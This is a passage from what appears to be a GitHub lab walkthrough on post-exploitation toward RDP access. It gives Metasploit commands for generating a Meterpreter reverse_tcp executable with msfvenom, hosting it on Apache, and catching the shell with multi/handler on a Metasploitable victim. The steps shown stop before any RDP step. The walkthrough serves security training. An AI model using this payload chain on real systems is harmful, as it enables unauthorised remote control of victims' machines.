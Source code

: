 # RDP Exploitation Lab

<h2>Description</h2>
In this lab, you’ll be learning leverage your meterpreter shell to get yourself Remote Desktop access on the victim’s machine. You’ll do so by using the same payload you created for the Post Exploitation lab, so refer back to that if you haven’t done it. I’ll briefly cover it in this lab again, but it’s best to do the Post Exploitation lab first.
Step 1.
<br />


<h2>Environments Used </h2>

- <b>Windows 10</b> (21H2)

<h2>Program walk-through:</h2>

<p align="center">
Step 1: <br/>
Open up your Kali Linux’s terminal and make yourself root user.
<br />
<br />
Step 2: Start the Apache webserver service, since this is where the victim will “accidentally” download and run the payload. To do so type “service apache2 start”.  <br/>
<img src="https://media-hosting.imagekit.io/0a7881c1c1dc4962/IMG_1157.jpg?Expires=1838052699&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=BiMbM2NOdsjs3zG42ydDoLiwvMO7~eVEU5m37GZuWoLMVkZ~h23noRe8a63~4XblFBmboY23nPIH4qZ9OjqrPm1n41DOYL1rwgCgVQ6Ja9~Cz4vXdunfdwaZQCnf83SYSHyMRNVT~WgZZVODHuPRuv6kBwJboijki3Jq9sw0GZM6FO2CdOq-2fmvv-aLw~TyLRTZN1XU5reClfcToKPETII01o-N8eN4Bt2eZl1IYiIsBtR6-C-Xa46vMcgaiTseH8ELaX8E6ke3a-pluCXyu43GBjut~SrtVrbwcu8Hu1i2mWaLCzbhaU39GmIpnASq69U~hu7ctXL4dpK5MaPJIA__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 2.5 Only do this step if you haven’t done the Post exploitation Lab nor created the payload from that lab. Move yourself to /var/www/html directory using “cd /var/www/html”. Then you’ll want to create the payload using this command “msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 -f exe -o payload.exe”. <br/>
<img src="https://media-hosting.imagekit.io/7c8729fa60ab424c/IMG_1158.jpg?Expires=1838052834&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=YhDvummx9L841FA4aKNT0k9vdDgwXczkyV-Np2eEAhFV-gm81k3B5L5FMVsUIsFKKQkJ5YffVXWGWLfqR3FnCRL4cquuUfgl6v~9X6beyEBavV9dDwdEMyT3P0cnZd4aBVQO4NeQLk-7f6IXw27mQ-Qi4J2nnUwyk0qe79R4GzJqezvdkeT0~64adombSV9cajKooqzvauoYmUqfL5aICWkMHwV8KJkzfXAU0b1fJNHZJX5cG0Ju5W3OAGrc9k-k2qDmqroGRWy95aDaNaNat7V8E0sGCsknspCtrem8MQNFhje92bPZl6u~iOwOlm3Ta2QPFz77ejMHx3bTZiAq2g__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 3. Now that you’ve created the payload, enter yourself into the msfconsole using the command “msfconsole -q”  <br/>
<img src="https://media-hosting.imagekit.io/9240fc28a9604b7d/IMG_1159.jpg?Expires=1838052917&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=PMLZ7drK5Luxs4tRsw60XrgXV~cYLUawCakHt-j73wT7hVp39TDexfrEY6QhDYyOPoJRqVbNTVRa~IFTD4WVIfSEcnczJCwqndnQdJwHU0Y-ye5BKkTzCC-5QCBTVhw7UXrqcqufQ6P6O~93eDa43DMwX-ajCIFQ~M7dpsXntankTDeGC4-0WZTXOEOZ4sZZ3A1Ghyi2iaV9JKpbfxovjGKHUa5QmzwdxL9pjAtKEEIqcb7OkTyWqyKUXSSCe4OfcXSPr95QXgbg7rOXlGsJXKOgsFcsDBm~C4vC1aLbL~tLgDoE9~ySKOgpp23b8JVqqZxeY~yPZFRGT8ZA4sHSnw__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 4. Since our payload is a meterpreter reverse_tcp payload where the victim machine will talk back to our host machine. We’re going to need a listener. So, we’ll use the generic listening module “use exploit/multi/handler”.  <br/>
<img src="https://media-hosting.imagekit.io/ac016aca43204180/IMG_1162.jpg?Expires=1838052995&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=1PT~PLALUXQp1dsU~aV6r05FofEaU1CpVPutcwz7~0u4pyN5qG8MdpVQWrud~KNDukVY-lDqeUu3f7Eff7BnMYSFahuu6JJpEiILiNLlAJax56SHJKLnRW~t12EQAxyxBJOQ0WwmNLMoEi1rmB9uA8F4cHwc~fH52X3PWeNnpz1hiLNzzzbAF05IUQ6j2OHHIK5xOxP3T1XxTmhf~EJI6xLd4zxrwt-5r~MJdXgT6fgDlhbMs2hjqZaJq-t~kwJQjJcpyoYSlvrQDSEWoHJmXgYgE4nCMoY8g09xGbLpx~koEngHefgJqMb1YMTi81jjk7Jve1MZ4FAU20K2IkHj~A__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 5. Remember, we need to set the payloads and lhost for this module, so you have to do the command “set payload windows/meterpreter/reverse_tcp” and “set lhost 10.0.2.15”. You can check to see everything is set up properly using “options”  <br/>
<img src="https://media-hosting.imagekit.io/da5e1ee320514c8c/IMG_1188.jpg?Expires=1838053142&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=hDhfwE6fPXnpUxgzYLo6CuROZv~a9WVwZ23Rnrx8knu8q3inYbTlWkSHzd~JST9gse3oCg2FHtO-SHujbpYL5Aea9VHNyZ8XCkdDfCPj9~qUJ0TvmyBTnd77x11UgS03MHQvIbWcicTVuUEfbRsNzTu9uFLNMpTzXnQfJmWfl5QbGYaQYUi9S7cMrC3B6QvfIg-Q4QnAyyRo~D2tpXnOuiw0yMgGlBxYaMbWApWlZ7iaexZNr6K8vFdFhtXJPAqsu~xtUl3HBWM2dhHw1gH5ynvQucwXkQsElhyICNSenQsO6uRUwxkh4fGYdPMUoNK9GpQz55eaK9t6lrXYmqx9yQ__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />
Step 6. Open up your Metasploitable 3 machine and launch a web browser. So, you can go the webpage “10.0.2.15/payload.exe”. Remember to replace the IP address with the ip address of your own Kali Linux’s IP. Since the payload is hosted on your Kali Linux’s VM. When you go the web page and get prompted with the run option. Start your listener on your msfconsole first by typing “run”.  <br/>
<img src="https://media-hosting.imagekit.io/e52c65c475304772/IMG_1190%20(1).jpg?Expires=1838053867&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=lvWWTrJgO17KSj3JpnmbhRbhln7AUBTXt1nx-fZvtZ2rp~DBw1NeWfkUNeaIheSPZlcvn1eaO15XzKEvb6p~KFQ57YeO04lEuMLoaFFDgXFeWqGQ6VzVRRctpO7FEHlARdyUqkDK-2g-EfmrCcnvIPCKlIIl~co8tBk3Q-N5xXQ6W5qKGD2r31-Y081gh7f63HoFxs0l~fvpRNlbtiKO7b0-5H4hDAX2D2DcGVfuyZu3bnNwITmpK0wn~O9Y-5FzCkymJBAjlMZ1mMJ2aQb8NCZW7KlA6DLJbfXzbncnvG5zve-u8oTGmF8jLvmtlefukMXuJxsMNxORIYVsX0rfjw__" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
<br />